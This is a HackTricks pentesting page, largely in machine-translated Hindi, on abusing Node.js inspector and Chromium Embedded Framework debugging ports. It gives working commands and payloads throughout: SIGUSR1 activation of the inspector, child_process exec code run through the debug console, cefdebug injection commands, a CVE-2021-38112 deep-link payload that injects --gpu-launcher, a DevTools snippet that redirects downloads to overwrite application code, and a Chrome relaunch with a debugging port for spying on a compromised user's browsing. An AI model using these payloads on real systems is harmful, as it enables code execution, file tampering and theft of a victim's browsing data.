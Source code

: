 # Node inspector/CEF debug abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): जब `--inspect` स्विच के साथ शुरू किया जाता है, तो एक Node.js प्रक्रिया एक डिबगिंग क्लाइंट के लिए सुनती है। **डिफ़ॉल्ट** रूप से, यह होस्ट और पोर्ट **`127.0.0.1:9229`** पर सुनती है। प्रत्येक प्रक्रिया को एक **विशिष्ट** **UUID** भी सौंपा जाता है।

इंस्पेक्टर क्लाइंट को कनेक्ट करने के लिए होस्ट पता, पोर्ट और UUID जानना और निर्दिष्ट करना चाहिए। एक पूर्ण URL कुछ इस तरह दिखेगा `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`।

{% hint style="warning" %}
चूंकि **डिबगर को Node.js निष्पादन वातावरण तक पूर्ण पहुंच है**, एक दुर्भावनापूर्ण अभिनेता जो इस पोर्ट से कनेक्ट करने में सक्षम है, Node.js प्रक्रिया की ओर से मनमाना कोड निष्पादित करने में सक्षम हो सकता है (**संभावित विशेषाधिकार वृद्धि**).
{% endhint %}

इंस्पेक्टर शुरू करने के कई तरीके हैं:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
जब आप एक निरीक्षित प्रक्रिया शुरू करते हैं, तो कुछ ऐसा दिखाई देगा:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Processes based on **CEF** (**Chromium Embedded Framework**) को **debugger** खोलने के लिए `--remote-debugging-port=9222` पैरामीटर का उपयोग करना आवश्यक है (SSRF सुरक्षा बहुत समान रहती है)। हालाँकि, वे **NodeJS** **debug** सत्र प्रदान करने के बजाय ब्राउज़र के साथ [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) का उपयोग करके संवाद करेंगे, यह ब्राउज़र को नियंत्रित करने के लिए एक इंटरफ़ेस है, लेकिन कोई सीधा RCE नहीं है।

जब आप एक डिबग किए गए ब्राउज़र को शुरू करते हैं, तो कुछ ऐसा दिखाई देगा:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### Browsers, WebSockets and same-origin policy <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

वेबसाइटें जो वेब-ब्राउज़र में खुलती हैं, वे ब्राउज़र सुरक्षा मॉडल के तहत WebSocket और HTTP अनुरोध कर सकती हैं। एक **प्रारंभिक HTTP कनेक्शन** आवश्यक है ताकि **एक अद्वितीय डिबगर सत्र आईडी प्राप्त की जा सके**। **same-origin-policy** **रोकता है** वेबसाइटों को **इस HTTP कनेक्शन** को बनाने से। [**DNS rebinding हमलों**](https://en.wikipedia.org/wiki/DNS\_rebinding)** के खिलाफ अतिरिक्त सुरक्षा के लिए,** Node.js यह सत्यापित करता है कि कनेक्शन के लिए **'Host' हेडर** या तो एक **IP पता** या **`localhost`** या **`localhost6`** को सटीक रूप से निर्दिष्ट करते हैं।

{% hint style="info" %}
यह **सुरक्षा उपाय निरीक्षक का शोषण करने से रोकता है** कोड चलाने के लिए **बस एक HTTP अनुरोध भेजकर** (जो एक SSRF vuln का शोषण करके किया जा सकता है)।
{% endhint %}

### चल रहे प्रक्रियाओं में निरीक्षक शुरू करना

आप एक चल रहे nodejs प्रक्रिया को **सिग्नल SIGUSR1** भेज सकते हैं ताकि यह **डिफ़ॉल्ट पोर्ट में निरीक्षक शुरू करे**। हालाँकि, ध्यान दें कि आपके पास पर्याप्त विशेषाधिकार होना चाहिए, इसलिए यह आपको **प्रक्रिया के अंदर जानकारी तक विशेषाधिकार प्राप्त पहुंच** दे सकता है लेकिन सीधे विशेषाधिकार वृद्धि नहीं।
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
यह कंटेनरों में उपयोगी है क्योंकि **प्रक्रिया को बंद करना और एक नई प्रक्रिया शुरू करना** `--inspect` के साथ **विकल्प नहीं है** क्योंकि **कंटेनर** को **प्रक्रिया** के साथ **मार दिया जाएगा**।
{% endhint %}

### निरीक्षक/debugger से कनेक्ट करें

**Chromium-आधारित ब्राउज़र** से कनेक्ट करने के लिए, Chrome या Edge के लिए `chrome://inspect` या `edge://inspect` URLs का उपयोग किया जा सकता है। Configure बटन पर क्लिक करके यह सुनिश्चित किया जाना चाहिए कि **लक्ष्य होस्ट और पोर्ट** सही ढंग से सूचीबद्ध हैं। चित्र एक Remote Code Execution (RCE) उदाहरण दिखाता है:

![](<../../.gitbook/assets/image (674).png>)

**कमांड लाइन** का उपयोग करके आप एक debugger/inspector से कनेक्ट कर सकते हैं:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
यह उपकरण [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug) स्थानीय रूप से चल रहे **निरीक्षकों** को **खोजने** और उनमें **कोड इंजेक्ट** करने की अनुमति देता है।
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
ध्यान दें कि **NodeJS RCE हमले काम नहीं करेंगे** यदि [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) के माध्यम से ब्राउज़र से जुड़े हों (आपको इसके साथ करने के लिए दिलचस्प चीजें खोजने के लिए API की जांच करनी होगी)।
{% endhint %}

## NodeJS Debugger/Inspector में RCE

{% hint style="info" %}
यदि आप यहाँ [**Electron में XSS से RCE प्राप्त करने का तरीका खोजने आए हैं, तो कृपया इस पृष्ठ की जांच करें।**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

जब आप Node **inspector** से **जुड़ सकते** हैं, तो **RCE** प्राप्त करने के कुछ सामान्य तरीके हैं, जैसे कि (लगता है कि यह **Chrome DevTools protocol** के साथ कनेक्शन में काम नहीं करेगा):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

You can check the API here: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
In this section I will just list interesting things I find people have used to exploit this protocol.

### Parameter Injection via Deep Links

In the [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino security ने खोजा कि CEF पर आधारित एक एप्लिकेशन ने सिस्टम में **एक कस्टम UR**I (workspaces://) पंजीकृत किया जो पूर्ण URI प्राप्त करता था और फिर **CEF आधारित एप्लिकेशन** को उस URI से आंशिक रूप से निर्मित कॉन्फ़िगरेशन के साथ लॉन्च करता था।

यह पता चला कि URI पैरामीटर URL डिकोड किए गए थे और CEF बेसिक एप्लिकेशन को लॉन्च करने के लिए उपयोग किए गए थे, जिससे एक उपयोगकर्ता को **`--gpu-launcher`** फ्लैग को **कमांड लाइन** में **इंजेक्ट** करने और मनमाने कार्यों को निष्पादित करने की अनुमति मिली।

So, a payload like:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
Will execute a calc.exe.

### Overwrite Files

**डाउनलोड की गई फ़ाइलों को सहेजने के लिए फ़ोल्डर बदलें** और एक फ़ाइल डाउनलोड करें ताकि आप अपने **दुष्ट कोड** के साथ एप्लिकेशन के अक्सर उपयोग किए जाने वाले **स्रोत कोड** को **ओवरराइट** कर सकें।
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE और exfiltration

इस पोस्ट के अनुसार: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) RCE प्राप्त करना और theriver से आंतरिक पृष्ठों को exfiltrate करना संभव है।

### Post-Exploitation

एक वास्तविक वातावरण में और **एक उपयोगकर्ता PC को समझौता करने के बाद** जो Chrome/Chromium आधारित ब्राउज़र का उपयोग करता है, आप **debugging सक्रियित करके और debugging port को port-forward करके** एक Chrome प्रक्रिया शुरू कर सकते हैं ताकि आप इसे एक्सेस कर सकें। इस तरह आप **विक्टिम द्वारा Chrome के साथ किए गए सभी कार्यों का निरीक्षण कर सकेंगे और संवेदनशील जानकारी चुरा सकेंगे**।

गुप्त तरीके से **हर Chrome प्रक्रिया को समाप्त करना** और फिर कुछ ऐसा कॉल करना है
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
